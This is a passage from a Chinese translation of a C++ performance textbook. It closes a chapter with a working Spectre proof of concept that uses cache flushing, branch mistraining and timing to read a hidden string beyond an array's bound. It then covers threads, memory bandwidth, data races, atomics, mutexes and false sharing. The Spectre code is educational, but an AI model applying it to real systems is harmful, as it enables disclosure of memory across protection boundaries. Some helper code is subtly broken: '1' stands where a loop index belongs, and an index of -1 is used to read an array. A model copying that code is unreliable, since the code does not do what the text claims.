代码中还有个神奇的延迟，一些无用的计算将缓存刷新和数据大小的访问分开(破坏了可能的指令重新排序，让CPU更快地获取数组大小)。`i < *data_size`需要一些时间来计算，CPU需要在得到结果之前从内存中读取值。分支根据大概率的结果进行预测，这是一个有效的索引，因此可以预测性地对数据进行访问。

**4.6.3Spectre出击！**

最后一步是把它们放在一起，并多次运行，以积累统计可靠的测试值(因为计时器本身所花费的时间与测试的时间差不多，导致单个指令的计时测试非常嘈杂)。

下面的函数攻击数据数组外的单个字节:

\
**spectre.C**

``` {style="styleCXX"}
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
```

对于计时数组中的每个元素，我们将计算一个分数，即该元素访问速度最快的次数。还跟踪速度第二快的元素，它应该是常规的、访问较慢的数组元素之一。在多次迭代中，会得到我们预期的结果。但在实际中，在某些时候必须放弃。

当最佳和次最佳的分数之间差距够大，就知道已经检测到了计时数组中的快速元素，即由秘密字节的值索引的元素(尽管可以尝试使用迄今为止最好的猜测，如果到了最大迭代次数，而没有得到期望的结果，攻击就失败了)。

有两个工具函数可用来计算延迟的平均分数，并找出两个最佳分数。只要能给出正确的结果，就可以以任何方式实现它们。第一个函数计算平均延迟，并增加延时低于平均值的计时元素的分数(必须通过实验调整，但不是很敏感)。注意，希望一个数组元素的访问速度更快，所以可以在计算平均延迟时跳过(理想情况下，一个元素的延迟要比其他元素低得多，而其他元素的延迟都相同):

\
**spectre.C**

``` {style="styleCXX"}
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
```

第二个函数只是在数组中找到两个最好的分数:

\
**spectre.C**

``` {style="styleCXX"}
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
```

我们有一个函数，指定了数组之外返回单个字节的值，但不直接读取这个字节。我们会用它来获取一些秘密数据!为了演示，将分配一个非常大的数组，通过指定一个较小的值作为数组的大小，将大多数数组指定为禁止访问的区域。实际上，这是唯一可以证明这种攻击的方法。自从发现Spectre漏洞以来，大多数计算机都打过补丁。因此，除非您的机器是上古机器，多年都没有更新，否则攻击将无法对任何不允许访问的内存进行攻击。补丁不会阻止对任何允许访问的数据使用Spectre，但必须检查代码，并证明它确实返回了值，而不是直接访问内存。我们的`spectre_attack`函数在指定大小的数据数组之外没有读取任何内存，因此可以创建一个比指定大两倍的数组，并在上面半部分隐藏一条秘密消息:

\
**spectre.C**

``` {style="styleCXX"}
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
```

再次检查一下给`spectre_attack`函数的值，数组大小就是数组中字符串的长度。除了在投机执行上下文中，代码不会访问其他内存。为了保护所有内存访问，需要对正确性进行检查。然而，程序会逐个字节地显示第二个字符串的内容，而这个字符串从来没有读取过。

总之，使用投机执行上下文来查看不允许访问的内存。由于访问该内存的分支条件是正确的，无效的访问是一个潜在的错误，并且永远不会发生。错误预测分支的结果会撤销，但有一个例外，访问的值仍然在缓存中，因此下一次访问相同值的速度会更快。对内存访问时间进行测试，就能知道那个值是多少!为什么我们对性能感兴趣，而不是黑客行为呢？要确认处理器和内存的行为确实如我们所描述，投机执行确实发生了，而且缓存确实工作，使得数据访问的速度更快。

###  4.7.总结 {#总结-3 .unnumbered}

本章中，我们了解了内存系统是如何工作的:缓慢的工作，CPU会因内存的低性能而性能变低。但是存储器间距也包含了潜在解决方案，可以用多个CPU操作来换取一个内存访问。

了解到内存系统非常复杂，并且有层级，所以内存系统没有纯粹的速度。如果内存使用的情况非常糟糕，这可能会严重影响程序的性能。同样，也可以把内存看作是一个机会而不是负担:从优化内存访问中获得的收益可能非常大，以至于超过了开销。

硬件本身提供了几种工具来提高内存性能。除此之外，还必须使用内存高效的数据结构。如果还不够，还要选择内存高效的算法来提高性能。通常，所有的性能决策都必须由测试指导和支撑。

目前为止，我们所有工作和测试都在单个CPU上进行。几乎没有提到现在的每一台计算机都有多个CPU核，而且经常有多个物理处理器。原因很简单:我们必须学会有效地使用单CPU，然后才能继续讨论更复杂的多CPU问题。下一章中，我们将注意力转向并发，并有效地使用多核和多处理器系统。

###  4.8.练习题 {#练习题-3 .unnumbered}

1.  什么是存储器间距？

2.  影响内存速度的因素有哪些？

3.  能否找到程序中访问内存是性能差的主要原因的位置？

4.  为了提高内存性能，优化程序的方法有哪些？

##  第5章线程、内存和并发 {#第5章线程内存和并发 .unnumbered}

我们已经研究了单CPU执行一个程序、一个指令序列的性能。了解了在单个CPU上运行单线程程序的性能。现在，我们已经了解了关于单线程的性能的所有知识，接下来可以来了解并发程序的性能。

本章将讨论以下内容:

-   线程概述

-   多线程和多核的内存访问

-   数据竞争和内存访问同步

-   锁和原子操作

-   内存模型

-   内存序和内存栅栏

###  5.1.相关准备 {#相关准备-3 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如前一章中使用的谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter05>。

###  5.2.线程和并发 {#线程和并发 .unnumbered}

今天所有的高性能计算机都有多个CPU或多个CPU内核(单个包中的独立处理器)。大多数笔记本电脑至少有两个内核，通常是四个。在性能的上下文中，高效程序不会让任何硬件处于空闲状态。如果程序只使用一小部分计算能力，例如：多个CPU内核中的一个，那么就不是高效或高性能的。一个程序在同一时间使用多个处理器的方法，只有运行多个线程或进程。另外，这并不是使用多处理器的唯一方法，例如：很少有笔记本电脑用于高性能计算。相反，它们可以使用多个CPU来更好地同时运行不同且独立的程序。这是一个非常好的模型，只是在高性能计算上下文中不是我们感兴趣的那种。HPC系统通常会在每台计算机上运行程序，甚至在分布式计算的情况下在多台计算机上运行同一个程序。那么程序如何使用多个CPU？可以让程序运行多个线程。

**5.2.1线程是什么？**

线程是一个指令序列，可以独立于其他线程执行。多个线程可以在同一个程序中并发运行。所有线程共享相同的内存，相同进程的线程运行在同一台机器上(HPC程序也可以包含多个进程)。分布式程序可以运行在多台机器上，并可以使用许多进程。分布式计算的主题超出了本书的范围，我们现在在了解如何最大化这些进程的性能。

那么，多线程的性能有什么可聊的呢？首先，只有当系统有足够的资源，能够同时执行多个指令序列时，同时执行多个指令序列才会让性能更好。否则，操作系统需要在不同的线程之间切换，以确保每个线程都有时间片可以执行。

单个处理器上，忙于计算的线程提供尽可能多的工作让处理器处理，即使线程没有使用所有的计算单元或正在等待内存访问，并且处理器一次只能执行一个指令序列-有一个程序计数器。现在，如果线程正在等待某些东西，比如用户输入或网络信息，那么CPU处于空闲状态，可以执行另一个线程，而不会影响第一个线程的性能。这里，操作系统会处理线程之间的切换。注意，等待内存并不算等待。当一个线程等待内存时，只是需要更长的时间来执行一条指令。当一个线程在等待I/O时，必须进行一个操作系统调用，然后该线程会被操作系统阻塞，直到操作系统唤醒才执行其他操作。

如果目标是提高程序的整体效率，那么执行繁重计算的线程就需要有足够的资源。考虑线程的资源时，想到的是使用多个处理器或处理器核心。也有其他方法，可以通过并发性来提高资源利用率，我们将看到这一点。

**5.2.2对称多线程**

处理器有很多计算硬件，大多数程序很少可以使用所有的硬件，程序中的数据依赖关系限制了处理器的计算能力。如果处理器有空闲的计算单元，就不能同时执行另一个线程来提高效率吗？这就是**对称多线程(SMT)**背后的思想，也称为**超线程**。

支持SMT的处理器只有一组寄存器和计算单元，但是有两个(或更多)程序计数器和一个计数器副本，用来维护正在运行的线程的状态(具体的实现因处理器的不同而不同)。操作系统将单个处理器视为两个(通常)或多个独立处理器，每个处理器能够运行一个线程。实际上，运行在一个CPU上的线程会竞争共享的资源，比如寄存器。如果每个线程没有充分利用这些共享资源，SMT可以提供显著的性能提高。换句话说，其通过运行多个这样的线程来弥补一个线程的低效。

实际中，大多数支持SMT的处理器都可以运行两个线程，而且性能的提高很多。很少看到100%的加速(两个线程都以全速运行)，通常实际的加速在25%到50%之间(第二个线程实际上以四分之一到一半的速度运行)，但是有些程序没有加速。出于本书的目的，不会以任何特殊的方式对待SMT线程。对于程序来说，SMT处理器就像两个处理器，在不同内核上运行的两个线程性能情况，同样适用于恰好在同一内核上运行的两个线程的性能。这时，必须衡量运行的线程数是否大于物理内核数，并且是否能够为程序提供加速，从而确定要运行多少个线程。

无论是共享整个物理核，还是SMT硬件创建的逻辑核，并发的性能在很大程度上取决于工作线程的独立性。这是由算法和线程之间的工作划分决定的，关于这两个问题的书都有百本之多，但这个问题不在本书的讨论范围内。我们现在关注的是影响线程交互，并决定特定实现成功或失败的因素。

**5.2.3线程和内存**

由于多个线程之间对CPU进行时间切片不会带来性能上的好处，所以在本章的其余部分，假设在每个处理器核心上运行一个HPC线程(或者在由SMT处理器提供的每个逻辑核心上运行一个线程)。只要这些线程不竞争资源，就可以彼此独立运行，程序就可以有加速。两个线程在同一时间内完成的工作是一个线程的两倍。如果工作可以在两个线程之间，以一种独立的方式完美地分配，那么两个线程将在一半的时间内解决问题。

这种理想的情况确实发生过，但并不常见。如果发生这种情况，需要准备好从程序中获得最佳性能，因为我们已经知道了如何优化单个线程的性能。

当不同线程所做的工作互相有影响，并且这些线程开始竞争资源时，编写高效的并发程序就困难了。如果每个线程都充分利用了CPU，那么还有什么其他的东西可以竞争呢？那就是内存了。所有线程都共享内存，因此内存是公共资源。这就是为什么对多线程程序性能的任何探索，几乎都会关注线程之间通过内存交互所产生的问题。

编写高性能并发程序还有另一个方面的能力，就是如何为线程和进程划分工作。但要了解这些，必须找一本关于并行编程的书，里面应该都会有介绍。

事实证明，内存已经是性能的最大瓶颈，添加并发性时，会放大这个问题。硬件所施加的基本限制无法解决问题，大多数程序的性能甚至还没有达到触发这些限制的条件。对于资深的开发者来说，这里有很大的空间来提高代码的效率，即本章为读者提供的知识和工具。

首先检查存在线程时内存系统的性能。用上一章的方法，通过测量读或写进内存的速度，只是现在用几个线程同时进行读或写，每个线程都有自己的内存区域可以访问。不是在线程之间共享任何数据，而是共享硬件资源，比如内存带宽。

内存基准测试与之前使用的测试几乎相同，基准函数体完全相同，例如：为了对顺序读取进行基准测试，使用以下函数:

\
**01c_cache_sequential_read.C**

``` {style="styleCXX"}
template <class Word>
void BM_read_seq(benchmark::State& state) {
	const size_t size = state.range(0);
	void* memory = ::malloc(size);
	void* const end = static_cast<char*>(memory) + size;
	volatile Word* const p0 = static_cast<Word*>(memory);
	Word* const p1 = static_cast<Word*>(end);
	for (auto _ : state) {
		for (volatile Word* p = p0; p != p1; ) {
			REPEAT(benchmark::DoNotOptimize(*p++);)
		}
		benchmark::ClobberMemory();
	}
	::free(memory);
	state.SetBytesProcessed(size*state.iterations());
	state.SetItemsProcessed((p1 - p0)*state.iterations());
}
```

注意，内存在基准函数中分配。这个函数需要多个线程调用，每个线程都要有自己读取数据的内存区域，这正是谷歌基准库在运行多线程基准时所做的。要在多个线程上运行基准测试，只需要使用正确的参数即可:

``` {style="styleCXX"}
#define ARGS ->RangeMultiplier(2)->Range(1<<10, 1<<30) \
			->Threads(1)->Threads(2)
BENCHMARK_TEMPLATE1(BM_read_seq, unsigned long) ARGS;
```

可以为不同的线程数指定任意的运行数量，或者使用`ThreadRange()`参数来生成1、2、4、8、...个线程。这里，必须决定要使用多少线程，因为对于HPC基准测试，通常没有理由检查设备拥有的CPU数量(包括SMT)。其他内存访问模式(如随机访问)的基准测试也以同样的方式进行(上一章中的代码)。为了写入，任何值都可以:

\
**01d_cache_sequential_write.C**

``` {style="styleCXX"}
Word fill; ::memset(&fill, 0xab, sizeof(fill));
for (auto _ : state) {
	for (volatile Word* p = p0; p != p1; ) {
		REPEAT(benchmark::DoNotOptimize(*p++ =
		  fill);)
	}
	benchmark::ClobberMemory();
}
```

现在展示结果，例如：下面是顺序写的内存吞吐量:

\
图5.1 - 连续写入64位整数的内存吞吐量(每纳秒字数)，线程数的范围为1到16

看到了与缓存大小相对应的速度。现在关注不同数量线程的曲线之间的差异，得到了从1到16个线程的结果(用于收集这些数据的机器确实至少有16个物理CPU核)。从图的左边开始，速度受到L1缓存(最多32KB)和L2缓存(256KB)的限制。处理器对每个核心都有单独的L1和L2缓存，所以只要数据适合L2缓存，线程之间就没有交互，因为它们不共享任何资源，每个线程都有自己的缓存。实际上，这并不完全正确，即使在较小的内存范围内，也有CPU组件是共享的。不过，这个结论又几乎是正确的。2个线程的吞吐量是1个线程的两倍，4个线程写入内存的速度又快了一倍，16个线程几乎比4个线程快4倍。

当数据超过L2缓存的大小，进入L3缓存，然后进入主存时，情况发生了巨大的变化。这个系统中，L3缓存是在所有CPU内核之间共享的。主内存也是共享的，尽管不同的内存更接近于不同的CPU(非统一的内存架构)。对于1、2甚至4个线程，吞吐量继续随着线程数量的增加而增加，主内存似乎有足够的带宽，可以支持最多4个处理器的全速写入。然后，当线程数从6增加到16时，吞吐量几乎没有增加。内存总线已经饱和了，不能更快地写数据了。

如果这还不够糟糕，请考虑这些结果是在撰写本文时(2020年)在最新的硬件上获得的。在2018年时，作者在他的课上展示的图表:

{width="80%"}\
图5.2 -旧CPU(2018)的内存吞吐量

这个系统有一个内存总线，使用两个线程就完全饱和了。让我们看看这对并发程序的性能有什么影响。

**5.2.4内存受限和并发性**

同样的结果可以用不同的方式来表示。通过绘制每个线程的内存速度(相对于一个线程)，这里专注于并发对内存速度的影响:

{width="70%"}\
图5.3 - 内存吞吐量(相对于单个线程的吞吐量)，以及线程数量

随着内存速度的标准化，所以单线程总是1，对于适合L1或L2缓存的小数据集，每个线程的内存速度几乎保持不变，即使是16个线程(每个线程的写入速度是单线程速度的80%)。然而，进入L3缓存或超过它的大小，4个线程之后速度就会下降。从8个线程增加到16个线程性能改进就非常小了。系统中没有足够的带宽以足够快的速度将数据写入内存。

尽管用于读取内存的带宽通常比用于写入的带宽稍好一些，但不同内存访问模式的结果看起来非常接近。

如果程序在单线程的情况下内存受限，那么性能就会受到在主内存中移动数据速度的限制。可以期望从并发性中获得的性能改进时，就要受到严格的限制。若这不适用于你，可能是因为你没有一个16核处理器，廉价的处理器有廉价的内存总线，所以大多数4核系统也没有足够的内存带宽给所有的核。

对于多线程程序，更重要的是要避免内存限制。这里使用的技术是分割计算，这样可以在更小的数据集上完成更多的工作，这些数据集适合存放于L1或L2缓存，再重新安排计算，这样可以用更少的内存访问完成更多的工作，通常会以重复一些计算为代价。优化内存访问模式，这样内存是顺序访问，而不是随机访问(即使可以饱和这两种访问模式，顺序访问的总带宽要大得多，因此对于相同数量的数据，如果使用随机访问，程序可能会受到内存限制，而如果使用顺序访问，则完全不受内存速度的限制)。仅靠实现技术是不够的，并且不能产生预期的性能改进，那么下一步就是使算法适应并发编程。许多问题都有多个算法，并且其内存需求不同。对于单线程程序来说，最快的算法通常会被另一种更适合并发的算法所超越，在单线程执行速度上的损失，可以通过可扩展执行进行弥补。

目前为止，我们假设每个线程都独立于所有其他线程完成自己的工作。由于对有限资源(如内存带宽)的争用，线程之间的唯一的交互是间接的。这是最容易编写的程序，但大多数实际情况中的程序不允许这样的限制。这带来了一系列全新的性能问题，是时候来了解这些问题了。

###  5.3.内存同步的代价 {#内存同步的代价 .unnumbered}

上一节讨论的是在同一台机器上运行多个线程，而这些线程之间没有任何交互。如果能以一种方式将程序所做的工作分割到多个线程之间，那么无论如何都要这样做。

线程之间通常需要交互，因为它们正在为一个共同的结果工作。这种交互是通过线程之间，通过共享资源(内存)进行通信的方式进行。我们现在必须理解这对性能的影响。

假设我们要计算多个值的和，有很多数字要累加，但最后只有一个结果，所以想要在几个线程之间进行添加工作。因此线程在做加和时，结果值时必须进行交互。

\
**02_sharing_incr.C**

``` {style="styleCXX"}
unsigned long x {0};
void BM_incr(benchmark::State& state) {
	for (auto _ : state) {
		benchmark::DoNotOptimize(++x);
	}
}
BENCHMARK(BM_incr)->Threads(2);
```

简单起见，这里将结果递增1(整数相加的代价与值无关，并且不想对不同值的生成进行基准测试，而只想对加法进行基准测试)。由于基准函数由每个线程完成，因此在这个函数中声明的任何变量都独立存在于每个线程的堆栈上，这些变量不共享。为了得到两个线程都参与的共同结果，变量必须在基准函数之外的文件范围内声明(这是个坏主意，但在微基准的非常有限的上下文中是必要和可接受的)。

当然，这个程序有一个比全局变量更大的问题:这是个错误的程序，其结果未定义。有两个线程递增相同的值，增加一个值需要3个步骤。程序从内存中读取值，在寄存器中增加值，然后将新值写回内存。两个线程完全可以同时读取相同的值(0)，在每个处理器(1)上分别递增，然后写回。写第二个线程的线程只是重写第一个线程的结果，在两次增量之后，结果是1，而不是2。这是因为两个线程为了写入同一内存位置而进行了竞争，这种竞争称为**数据竞争**。

既然了解了为什么这种无保护的并发访问会出问题，那么最好忘记它。相反，请遵循这个一般的规则:如果在没有同步的情况下，让多个线程访问相同的内存位置，并且这些访问中有一个是写操作，结果是未定义的。这是非常重要的，没有必要确切地指出必须做哪些操作序列会得到不正确的结果。事实上，在这种推理过程中什么也得不到。当有两个或更多的线程访问同一个内存位置时，就会遇到数据竞争，除非能保证以下两件事中的一件:要么所有的访问都只读，要么所有的访问都使用了正确的内存同步(这一点我们还没有了解到)。

计算求和的问题要求将结果写入结果变量，所以访问肯定不是只读的。内存访问的同步通常由互斥锁提供，每次访问线程间共享的变量都必须由互斥锁保护(当然，所有线程的互斥锁必须相同)。

\
**03_mutex_incr.C**

``` {style="styleCXX"}
unsigned long x {0};
std::mutex m;

{ // Concurrent access happens here
	std::lock_guard<std::mutex> guard(m);
	++x;
}
```

`lock_guard`锁在其构造函数中锁定互斥锁，并在析构函数解锁。一次只有一个线程可以拥有锁，这样就可以对共享结果变量进行增加数值的操作。这时，其他线程被锁阻塞，直到第一个线程释放锁后才能获取锁。注意，只要有一个线程在修改变量，所有的访问(包括读和写)都必须阻塞。

锁是确保多线程程序正确性的最简单方法，但就性能而言，还挺难研究的。锁的实现相当复杂，会经常涉及系统调用。我们将从一个同步选项开始，在这个特定的例子中，这个方式会更容易分析:原子变量。

C++提供了一个将变量声明为原子变量的选项。这意味着对这个变量支持的所有操作都是不可中断的原子事务。任何观察这个变量的其他线程都将在原子操作前后看到它的状态，但绝不会在操作的中间看到它的状态。例如，C++中所有的整数原子变量都支持原子增量操作。如果线程正在执行这个操作，那么在第一个操作完成之前，其他线程都不能访问这个变量。这些操作需要一定的硬件支持，原子增量是一种特殊的硬件指令，它读取旧的值，增加它的值，然后写入新值，所有这些都作为一个单独的硬件操作。

我们的示例中，只需要一个原子自增。必须强调的是，无论使用什么同步机制，所有线程都必须使用相同的机制来并发访问特定的内存位置。如果在一个线程上使用原子操作，只要所有线程都使用原子操作，就不存在数据竞争。如果另一个线程使用互斥锁或非原子访问，那保护不起作用，结果依旧是未定义的。

用C++的原子操作重写基准测试:

\
**02_sharing_incr.C**

``` {style="styleCXX"}
std::atomic<unsigned long> x(0);
void BM_shared(benchmark::State& state) {
	for (auto _ : state) {
		benchmark::DoNotOptimize(++x);
	}
}
```

程序现在是正确的，这里没有数据竞争。这并不一定准确，因为单个自增是在一个非常短的时间间隔内进行的，这里应该手动展开循环或使用宏，并在每次循环迭代中进行多次递增(已经在上一章中做了这一点，所以可以在那里看到这样的宏)。若线程之间没有交互，两个线程计算总和的时间将是一个线程计算总和的一半:

\
图5.4 - 多线程程序中原子自增的时间

对结果进行了标准化，以显示单个增量的平均时间，即计算和除以相加总数的时间。这个程序的性能非常令人失望，不仅没有任何改进，在两个线程上计算总和要比在一个线程上花费更长的时间。

如果使用互斥锁，结果会更糟:

\
图5.5 - 多线程程序中使用互斥量会增加耗时

首先，锁定互斥锁是一个相当耗时的操作，即使在一个线程上。互斥锁需要23纳秒，而原子变量需要7纳秒。随着线程数量的增加，性能会下降得更快。

可以从这些测试中了解到很多。程序中访问共享数据的部分永远不会扩展，访问共享数据的最佳性能是单线程性能。当有两个或更多的线程同时访问相同的数据，性能只会变得更糟。当然，如果两个线程在不同的时间访问相同的数据，它们不会交互，因此两次都获得了单线程性能。多线程的性能优势来自于线程独立计算，而不需要同步。这样的计算可以在不共享的数据上进行(无论如何，若希望程序结果正确)，但是为什么对共享数据的并发访问有如此大的开销呢？下一节中，我们将了解其中原因，也将了解如何解析测试结果。

###  5.4.数据共享很贵 {#数据共享很贵 .unnumbered}

共享数据的并发(同时)访问是一个性能杀手。因为为了避免数据竞争，在给定的时间内只有一个线程可以操作共享数据。可以使用互斥量来完成这个任务，如果有原子操作的话，可以使用原子操作。无论哪种方式，当一个线程递增共享变量时，其他所有线程都必须等待。上一节的测试结果也证实了这一点。

然而，在根据观察和测试采取任何行动前，要理解我们测试了什么，以及可以确定地得出什么结论。

多个线程同时递增一个共享变量根本没有扩展性，甚至比只使用一个线程还要慢，原子共享变量和互斥保护的非原子变量都是如此。这里没有尝试测试对非原子变量的无保护访问，因为这样的操作会导致未定义行为和不正确的结果。对特定于线程(非共享)变量的无保护访问，可以很好地随着线程的数量而扩展，至少在饱和了内存带宽前是这样(这只会发生在写大量数据的时候;对于单个变量来说，这不是问题)。批判性地、不带偏见地分析实验结果是一项重要的技能，有保护的访问共享数据很慢，而无保护的访问非共享数据很快。如果由此得出共享数据会使程序变慢的结论，就需要做出一个假设:**共享数据**重要，而**访问保护**不重要。这就引出了在进行性能测量时的另一个问题:比较程序的两个版本时，一次只更改其中一个的内容，然后测试结果。

我们缺少对受保护数据的非共享访问的衡量标准。当然，这里不需要保护单线程的数据访问，但我们试图理解是什么原因使共享数据的访问有如此大开销。是共享或是原子的原因(或由锁保护)？为了确定这一点，需要一次做一个更改，所以保持原子访问并删除数据共享。第一种方法是创建一个原子变量的全局数组，并让每个线程访问自己的数组元素:

\
**04_local_incr.C**

``` {style="styleCXX"}
std::atomic<unsigned long> a[1024];
void BM_false_shared(benchmark::State& state) {
	std::atomic<unsigned long>& x = a[state.thread_index];
	for (auto _ : state) {
		benchmark::DoNotOptimize(++x);
	}
}
```

谷歌基准测试中的线程索引对于每个线程都是唯一的，数字从0开始，并且是紧凑的(0,1,2...)。另一种简单的方法是在基准函数中声明变量，如下所示:

\
**04_local_incr.C**

``` {style="styleCXX"}
void BM_not_shared(benchmark::State& state) {
	std::atomic<unsigned long> x;
	for (auto _ : state) {
		benchmark::DoNotOptimize(++x);
	}
}
```

现在，对同一个原子整数进行递增，就像为图5.4收集测试数据时所做的那样，只是现在不再在线程之间共享。这将说明性能变差是共享的原因，还是原子变量的原因。以下是结果:

\
图5.6 - 共享和非共享变量的原子增量时间

图5.4中的的**Shared**曲线为共享数据的曲线，另外两条曲线为不共享数据的曲线。线程上都有一个局部变量的基准测试标记为**Not
shared**。在两个线程上的计算时间比在一个线程上的计算时间少一半，在四个线程上的计算时间又减少了一半，以此类推。请记住，这是一个增量操作的平均时间，总共做了100万次增量计算，测试它所花费的总时间，然后除以100万。由于递增的变量不是在线程之间共享的，所以期望两个线程的运行速度是一个线程的两倍，所以**Not
shared**的结果与期望相符。另一个基准测试中，使用原子变量数组，但每个线程使用自己的数组元素，也没有共享数据。然而，其执行就像数据在线程之间共享一样，至少对于少量的线程是这样，所以称它为**伪共享**:没有什么是真正共享的，但程序的行为就像是共享的一样。

这个结果表明，数据共享成本高的原因比之前假设的要复杂。在伪共享的情况下，只有一个线程在操作每个数组元素，所以不需要等待任何其他线程完成其增量操作。然而，线程显然在彼此等待。为了理解这种异常现象，必须对缓存的工作方式进行更多的了解。

在多核或多处理器系统中，数据在处理器和内存之间移动的方式如图5.7所示。

{width="60%"}\
图5.7 - 多核系统中CPU和内存之间的数据传输

处理器以字节或整数的形式处理数据，这取决于变量的类型。在我们的例子中，一个`unsigned long`类型变量具有8字节。原子增量读取指定地址处的单个字，对其加1，然后写回。但是从哪里读呢？CPU只能直接访问L1缓存，因此只能从那里获取数据。数据如何从主存储器进入高速缓存？数据是通过内存总线复制的，而内存总线要宽得多。可以从内存复制到高速缓存并返回的最小数据量称为**缓存行**。在所有x86
CPU上，一条缓存行的大小为64字节。当CPU需要为一个原子事务锁定内存位置时，比如一个原子增量，CPU可能在写一个数据，并锁定整个缓存行:如果两个CPU可以在同一时间将同一缓存行写入内存，那么其中一个必然会覆盖另一个。注意，为了简单起见，在图5.7中只显示了一个级别的缓存层次结构，但这没有区别。数据会以缓存行长的形式经过所有级别的缓存。

现在可以解释我们观察到的伪共享。即使相邻的数组元素在线程之间并没有真正共享，但确实占用了相同的缓存行。当CPU请求独占访问一个数组元素时，会锁定整个缓存行，阻止其他CPU访问其中的任何数据。这也解释了为什么图5.7中的伪共享在8个线程时看起来和真正的数据共享是一样的，但是在更多的线程时变得更快:写入的是8个字节的数据，所以它们中的8个可以放进同一个缓存行中。如果只有8个线程(或更少)，那么在任何给定的时间，只有一个线程可以增加它的值，这与真正的共享一样。但是如果超过8个线程，数组至少占用两条缓存行，并且可以被两个独立的CPU锁住。所以，若有16个线程，那么就有两个线程可以向前移动，数组的一半对应一个线程。

另一方面，真正的非共享基准测试在每个线程的堆栈上分配原子变量。是完全独立的内存分配，由许多缓存行隔开。由于没有内存交互，这些线程可以完全独立地运行。

分析表明，访问共享数据的高成本的真正原因是，必须维护对缓存行的独占访问，并确保所有CPU的缓存中有一致的数据。当一个CPU获得了独占访问权，并且更新了缓存行上的1位后，所有其他CPU的缓存行副本就过期了。在其他CPU访问同一缓存行的数据之前，必须从主存中获取更新后的内容，这将花费较长的时间。

两个线程是否访问相同的内存位置并不重要，重要的是它们会竞争访问相同的缓存行。独占的缓存行访问是共享变量高成本的根源。

有人可能想知道，锁昂贵的原因是否也存在于包含的共享数据中(所有锁都必须具有一定数量的共享数据，这是一个线程可以让另一个线程知道锁占用的唯一方法)。即使是在一个线程上，互斥锁也比单个原子访问要昂贵得多，如图5.4和5.5中看到的那样。锁定互斥对象比仅仅修改一个原子变量需要更多的工作。但是，当有多个线程时，为什么这项工作要花费更多的时间呢？是因为数据是共享的，需要独占的访问缓存行吗？我们把这个问题留给读者作为一个练习，通过自己的方法确认是否真的是这样。这个问题的关键是设置锁的伪共享。一个锁数组，每个线程操作自己的锁，竞争相同的缓存行(当然，这种每个线程的锁实际上并不能保护并发访问，但我们想要的是锁定和解锁所花费的时间)。标准C++的互斥量`std::mutex`通常相当大，根据操作系统的不同，在40到80字节之间，可能不能在同一个缓存行中放入两个互斥量。所以必须使用较小的锁来进行这个实验，例如：自旋锁或futex(fast
userspace mutex)。

现在明白了为什么并发访问共享数据的代价如此之高。这里需要注意两点：首先，创建非共享数据时，要避免错误的数据共享。无意间的错误共享会在程序出现吗？这一章已经有了个简单的例子:对多个数进行同时累加求和。我们的方法都非常慢(比单线程程序慢，或者和单线程性能相当)，同时也清楚了访问共享数据的开销很高。那么，有什么方法能降低这个开销呢？当然，不是访问共享数据!至少是不经常访问它。对于我们来说，不需要在想要进行累加时，就访问共享内存。我们可以在本地、线程上进行累加，并在最后一次性将它们添加到共享的累加值中:

\
**04_local_incr.C**

``` {style="styleCXX"}
// Global (shared) results
std::atomic<unsigned long> sum;
unsigned long local_sum[…];
// Per-thread work is done here
unsigned long& x = local_sum[thread_index];
for (size_t i = 0; i < N; ++i) ++x;
sum += x;
```

